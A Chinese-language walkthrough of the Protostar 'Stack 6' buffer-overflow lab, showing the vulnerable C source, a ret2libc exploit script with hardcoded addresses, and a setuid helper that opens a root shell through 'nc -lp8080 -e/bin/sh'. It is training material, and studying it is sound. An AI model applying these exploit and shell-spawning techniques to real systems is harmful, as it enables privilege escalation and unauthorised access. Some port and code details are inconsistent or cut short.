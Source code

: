 # Stack 6

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

void getpath\(\)

{

char buffer\[64\];

unsigned int ret;

printf\("input path please: "\); fflush\(stdout\);

gets\(buffer\);

ret = \_\_builtin\_return\_address\(0\);

if\(\(ret & 0xbf000000\) == 0xbf000000\) {

```
printf\("bzzzt \(%p\)\n", ret\);

\_exit\(1\);
```

}

printf\("got path %s\n", buffer\);

}

int main\(int argc, char \*\*argv\)

{

getpath\(\);

}

## （二）解题过程：

这个是典型的的ROP ，绕过栈保护的一种方法。ret2libc意思是返回到c库。调用system函数执行/bin/sh 然后用exit\(\)退出。最终攻击的payload会是：

填充padding --&gt; system（）地址--&gt;exit\(\)地址----&gt;/bin/sh

1\)判断stack6是否有suid权限

![](/png/26.png)

stack6 有suid权限。

2）首先，调用system后，需要执行/bin/sh.要实现这个，需要两步：

把/bin/sh放到环境变量里 $shell

然后system（）调用该变量。

方法：

export SHELL=/bin/sh

echo $SHELL

要想得到变量$SHELL的地址，需要用到gdb调试器

b main  在main函数下断点。

r   运行

查看环境变量的地址和值

x/s \* \(\(char \*\*\)environ+x\)   x是一个数字，然后就打印出相应的变量地址

![](/png/27.png)

3）知道了变量的地址后，来获取漏洞溢出的偏移位置。

![](/png/28.png)

4）gdb 执行进入输入路径填充

![](/png/29.png)

溢出点出现。

![](/png/30.png)

偏移80的地方。此时查看system\(\)和exit\(\)地址

![](/png/31.png)

5）编写漏洞利用代码exploit.py

```
结构如下：
```

import struct

buff = 'A'\*80

system = struct.pack\("I",0xb7ecffb0\)

exit = struct.pack\("I",0xb7ec60c0\)

shell = struct.pack\("I",0xbfffff82\)

print buff+system+exit+shell

![](/png/32.png)

We have to remember that the address of `SHELL`is not the exact address and we will need to go up or down for a little bit. We will execute the script and redirect the output to a file and name it payload. `python /tmp/stack6.py > /tmp/payload` , Then we will cat the file and pipe the output to `./stack6`

难点在于需要调整SHELL变量的地址。测试了好几次没找到正好地。明天接着试试。

![](/png/33.png)

测试中发现可能是环境变量选择的问题。尝试换一个环境变量执行TTE="whoami"

另外环境变量地址的获取方法最好使用程序老获取，gdb获取的不准确，不好调整。

export TTE="whoami"

获取环境变量地址的c代码如下：

getaddress.c

![](/png/34.png)

\#include &lt;stdio.h&gt;

\#include &lt;stdlib.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*argv\[\]\) {

```
            char \*ptr;

            if\(argc &lt; 3\) {

                            printf\("Usage: %s &lt;environment variable&gt; &lt;target program name&gt;\n", argv\[0\]\);

                            exit\(0\);

            }

            ptr = getenv\(argv\[1\]\); /\* get env var location \*/

            ptr += \(strlen\(argv\[0\]\) - strlen\(argv\[2\]\)\)\*2; /\* adjust for program name \*/

            printf\("%s will be at %p\n", argv\[1\], ptr\);
```

![](/png/35.png)

stack6.py 的脚本如下：

![](/png/36.png)

根据反馈信息，地址做了微调。程序最后返回root.

那么，现在做一下验证，再把TTE环境变量改回"/bin/sh"试，不好用。为了得到一个shell，我们采用将环境变量设置为可以反弹shell的nc程序。

在/tmp目录下编写nc.c

\#include &lt;stdlib.h&gt;

int main\(int argc, char \*\*argv, char \*\*envp\) {

```
setuid\(0\); // These two are necessary, as system\(\) drops privileges

setgid\(0\);

char \*args\[\] = {  "nc", "-lp8080", "-e/bin/sh", \(char \*\) 0 };

execve\("/bin/nc", args, envp\);
```

}

在/tmp目录下运行得到nc

设置环境变量 RUN

export RUN=///////////////////tmp/nc

利用上面取环境变脸地址的程序/tmp/addr RUN ./stack6获取环境变量地址

然后修改stack6.py脚本地址就可以了。

在kali下监听7777端口，成功。

nc.c

![](/png/39.png)

利用addr获取变量run地址

![](/png/38.png)

![](/png/37.png)



ref：

[https://blog.csdn.net/stonesharp/article/details/38402953?utm\_source=blogxgwz4](https://blog.csdn.net/stonesharp/article/details/38402953?utm_source=blogxgwz4)

[https://programlife.net/](https://programlife.net/)

[https://0xrick.github.io/binary-exploitation/bof6/](https://0xrick.github.io/binary-exploitation/bof6/)

[https://www.shellblade.net/posts.html](https://www.shellblade.net/posts.html)

[http://louisrli.github.io/blog/2012/08/28/protostar-stack2/\#.XXHf9WZ5v\_V](http://louisrli.github.io/blog/2012/08/28/protostar-stack2/#.XXHf9WZ5v_V)

